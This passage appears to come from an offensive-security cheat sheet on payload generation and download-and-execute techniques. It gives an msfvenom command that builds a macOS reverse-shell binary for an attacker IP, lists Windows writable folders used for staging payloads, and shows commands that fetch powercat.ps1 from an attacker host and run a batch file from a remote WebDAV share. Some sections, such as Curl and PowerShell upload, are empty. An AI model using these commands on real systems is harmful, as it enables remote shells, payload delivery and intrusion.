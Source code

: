 ### MACHO
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f macho > shell.macho
```
# Download and execute methods
## Downloaded files location 
```
C:\\Users\\username\\AppData\\Local\\Microsoft\\Windows\\Temporary Internet Files\
C:\\Users\\username\\AppData\\Local\\Microsoft\\Windows\\INetCache\\IE\\subdir
C:\\Windows\\ServiceProfiles\\LocalService\\AppData\\Local\\Temp\\TfsStore\\Tfs_DAV\
```
## Default writeable folders
```
C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
C:\Windows\System32\spool\drivers\color
C:\Windows\System32\spool\printers
C:\Windows\System32\spool\servers
C:\Windows\tracing
C:\Windows\Temp
C:\Users\Public
C:\Windows\Tasks
C:\Windows\System32\tasks
C:\Windows\SysWOW64\tasks
C:\Windows\System32\tasks_migrated\microsoft\windows\pls\system
C:\Windows\SysWOW64\tasks\microsoft\windows\pls\system
C:\Windows\debug\wia
C:\Windows\registration\crmlog
C:\Windows\System32\com\dmp
C:\Windows\SysWOW64\com\dmp
C:\Windows\System32\fxstmp
C:\Windows\SysWOW64\fxstmp
```
## HTTP
### Wget
#### Downloading files
```
wget -O "C:\home\student\pwc.ps1" http://192.168.119.244/tools/powercat.ps1
```
### Curl
#### Downloading files
### Cmd
#### Running a script from remote host
```
cmd.exe /k < \\webdavserver\folder\batchfile.txt
```
### Powershell
Default powershell locations:
```
C:\windows\syswow64\windowspowershell\v1.0\powershell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell
```
#### Uploading files
Encode and output to base64 text from our binary:
```
```